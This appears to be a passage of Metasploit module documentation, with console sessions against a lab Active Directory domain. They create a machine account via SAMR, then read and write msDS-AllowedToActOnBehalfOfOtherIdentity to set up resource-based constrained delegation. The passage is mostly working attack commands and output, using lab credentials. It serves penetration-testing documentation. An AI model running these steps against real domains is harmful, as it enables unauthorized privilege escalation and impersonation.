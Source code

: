 ```msf
   ----          -----------
   ADD_COMPUTER  Add a computer account


msf auxiliary(admin/dcerpc/samr_account) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf auxiliary(admin/dcerpc/samr_account) > set SMBUser sandy
SMBUser => sandy
msf auxiliary(admin/dcerpc/samr_account) > set SMBPass Password1!
SMBPass => Password1!
msf auxiliary(admin/dcerpc/samr_account) > run
[*] Running module against 192.168.159.10

[*] 192.168.159.10:445 - Using automatically identified domain: MSFLAB
[+] 192.168.159.10:445 - Successfully created MSFLAB\DESKTOP-QLSTR9NW$
[+] 192.168.159.10:445 -   Password: A2HPEkkQzdxQirylqIj7BxqwB7kuUMrT
[+] 192.168.159.10:445 -   SID:      S-1-5-21-3402587289-1488798532-3618296993-1655
[*] Auxiliary module execution completed
msf auxiliary(admin/dcerpc/samr_account) > use auxiliary/admin/ldap/rbcd
```

Now use the RBCD module to read the current value of `msDS-AllowedToActOnBehalfOfOtherIdentity`:

```msf
msf auxiliary(admin/ldap/rbcd) > set USERNAME sandy@msflab.local
BIND_DN => sandy@msflab.local
msf auxiliary(admin/ldap/rbcd) > set PASSWORD Password1!
BIND_PW => Password1!
msf auxiliary(admin/ldap/rbcd) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf auxiliary(admin/ldap/rbcd) > set DELEGATE_TO WS01$
DELEGATE_TO => WS01$
msf auxiliary(admin/ldap/rbcd) > read
[*] Running module against 192.168.159.10

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[+] 192.168.159.10:389 Discovered base DN: DC=msflab,DC=local
[*] The msDS-AllowedToActOnBehalfOfOtherIdentity field is empty.
[*] Auxiliary module execution completed
```

Writing a new `msDS-AllowedToActOnBehalfOfOtherIdentity` value using the computer account created by `admin/dcerpc/samr_account`:

```msf
msf auxiliary(admin/ldap/rbcd) > set DELEGATE_FROM DESKTOP-QLSTR9NW$
DELEGATE_FROM => DESKTOP-QLSTR9NW$
msf auxiliary(admin/ldap/rbcd) > write
[*] Running module against 192.168.159.10

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[+] 192.168.159.10:389 Discovered base DN: DC=msflab,DC=local
[+] Successfully created the msDS-AllowedToActOnBehalfOfOtherIdentity attribute.
[*] Auxiliary module execution completed
```
